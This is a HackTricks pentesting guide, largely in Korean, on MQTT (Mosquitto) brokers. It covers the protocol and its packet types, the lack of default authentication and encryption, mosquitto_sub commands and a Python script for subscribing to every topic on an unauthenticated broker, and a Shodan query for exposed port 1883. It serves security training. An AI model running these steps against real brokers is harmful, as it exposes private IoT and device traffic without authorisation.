 # 1883 - Pentesting MQTT (Mosquitto)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**MQ Telemetry Transport (MQTT)**는 극도의 단순성과 경량성으로 두드러지는 **게시/구독 메시징 프로토콜**로 알려져 있습니다. 이 프로토콜은 장치의 기능이 제한적이고 낮은 대역폭, 높은 지연 시간 또는 신뢰할 수 없는 연결이 특징인 네트워크에서 작동하는 환경에 맞춰 특별히 설계되었습니다. MQTT의 핵심 목표는 네트워크 대역폭 사용을 최소화하고 장치 리소스에 대한 수요를 줄이는 것입니다. 또한 신뢰할 수 있는 통신을 유지하고 일정 수준의 전달 보장을 제공하는 것을 목표로 합니다. 이러한 목표는 MQTT를 **기계 간 통신 (M2M)** 및 **사물인터넷 (IoT)**의 급성장하는 분야에 특히 적합하게 만듭니다. 여기서 수많은 장치를 효율적으로 연결하는 것이 필수적입니다. 또한, MQTT는 대역폭과 배터리 수명을 절약하는 것이 중요한 모바일 애플리케이션에도 매우 유용합니다.

**기본 포트:** 1883
```
PORT     STATE SERVICE                 REASON
1883/tcp open  mosquitto version 1.4.8 syn-ack
```
## 트래픽 검사

MQTT 브로커가 **CONNECT** 패킷을 수신하면 **CONNACK** 패킷이 다시 전송됩니다. 이 패킷에는 연결 상태를 이해하는 데 중요한 반환 코드가 포함되어 있습니다. 반환 코드 **0x00**은 자격 증명이 수락되었음을 의미하며, 성공적인 연결을 나타냅니다. 반면, 반환 코드 **0x05**는 자격 증명이 유효하지 않음을 나타내어 연결을 방지합니다.

예를 들어, 브로커가 유효하지 않은 자격 증명으로 인해 연결을 거부하는 경우, 시나리오는 다음과 같이 보일 것입니다:
```
{
"returnCode": "0x05",
"description": "Connection Refused, not authorized"
}
```
![](<../.gitbook/assets/image (976).png>)

### [**브루트포스 MQTT**](../generic-hacking/brute-force.md#mqtt)

## MQTT 펜테스팅

**인증은 완전히 선택 사항입니다** 그리고 인증이 수행되고 있더라도, **기본적으로 암호화가 사용되지 않습니다** (자격 증명이 평문으로 전송됩니다). MITM 공격을 통해 여전히 비밀번호를 훔칠 수 있습니다.

MQTT 서비스에 연결하려면: [https://github.com/bapowell/python-mqtt-client-shell](https://github.com/bapowell/python-mqtt-client-shell)을 사용하고 다음을 수행하여 모든 주제에 구독할 수 있습니다:
```
> connect (NOTICE that you need to indicate before this the params of the connection, by default 127.0.0.1:1883)
> subscribe "#" 1
> subscribe "$SYS/#"
```
당신은 또한 사용할 수 있습니다:
```bash
apt-get install mosquitto mosquitto-clients
mosquitto_sub -t 'test/topic' -v #Subscribe to 'test/topic'
mosquitto_sub -h <host-ip> -t "#" -v #Subscribe to ALL topics.
```
또는 **이 코드를 실행하여 인증 없이 MQTT 서비스에 연결하고 모든 주제를 구독하여 수신할 수 있습니다**:
```python
#This is a modified version of https://github.com/Warflop/IOT-MQTT-Exploit/blob/master/mqtt.py
import paho.mqtt.client as mqtt
import time
import os

HOST = "127.0.0.1"
PORT = 1883

def on_connect(client, userdata, flags, rc):
client.subscribe('#', qos=1)
client.subscribe('$SYS/#')

def on_message(client, userdata, message):
print('Topic: %s | QOS: %s  | Message: %s' % (message.topic, message.qos, message.payload))

def main():
client = mqtt.Client()
client.on_connect = on_connect
client.on_message = on_message
client.connect(HOST, PORT)
client.loop_start()
#time.sleep(10)
#client.loop_stop()

if __name__ == "__main__":
main()
```
## More information

from here: [https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b](https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b)

### The Publish/Subscribe Pattern <a href="#b667" id="b667"></a>

The publish/subscribe model is composed of:

* **Publisher**: 브로커의 하나(또는 여러 개) 주제에 메시지를 게시합니다.
* **Subscriber**: 브로커의 하나(또는 여러 개) 주제를 구독하고, 퍼블리셔로부터 전송된 모든 메시지를 수신합니다.
* **Broker**: 퍼블리셔로부터 구독자에게 모든 메시지를 라우팅합니다.
* **Topic**: 슬래시로 구분된 하나 이상의 레벨로 구성됩니다 (예: /smartshouse/livingroom/temperature).

### Packet Format <a href="#f15a" id="f15a"></a>

Every MQTT packet contains a fixed header (Figure 02).Figure 02: Fixed Header

![https://miro.medium.com/max/838/1\*k6RkAHEk0576geQGUcKSTA.png](https://miro.medium.com/max/838/1*k6RkAHEk0576geQGUcKSTA.png)

### Packet Types

* CONNECT (1): 클라이언트가 서버에 연결을 요청하기 위해 시작합니다.
* CONNACK (2): 성공적인 연결에 대한 서버의 확인입니다.
* PUBLISH (3): 클라이언트에서 서버로 또는 그 반대로 메시지를 전송하는 데 사용됩니다.
* PUBACK (4): PUBLISH 패킷에 대한 확인입니다.
* PUBREC (5): 메시지가 수신되었음을 보장하는 메시지 전송 프로토콜의 일부입니다.
* PUBREL (6): 메시지 전송에 대한 추가 보증으로, 메시지 해제를 나타냅니다.
* PUBCOMP (7): 메시지 전송 프로토콜의 마지막 부분으로, 완료를 나타냅니다.
* SUBSCRIBE (8): 클라이언트가 주제로부터 메시지를 수신하기 위해 요청합니다.
* SUBACK (9): SUBSCRIBE 요청에 대한 서버의 확인입니다.
* UNSUBSCRIBE (10): 클라이언트가 주제로부터 메시지 수신을 중단하기 위해 요청합니다.
* UNSUBACK (11): UNSUBSCRIBE 요청에 대한 서버의 응답입니다.
* PINGREQ (12): 클라이언트가 전송하는 하트비트 메시지입니다.
* PINGRESP (13): 하트비트 메시지에 대한 서버의 응답입니다.
* DISCONNECT (14): 클라이언트가 연결을 종료하기 위해 시작합니다.
* 두 값, 0과 15는 예약으로 표시되며 사용이 금지됩니다.

## Shodan

* `port:1883 MQTT`

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
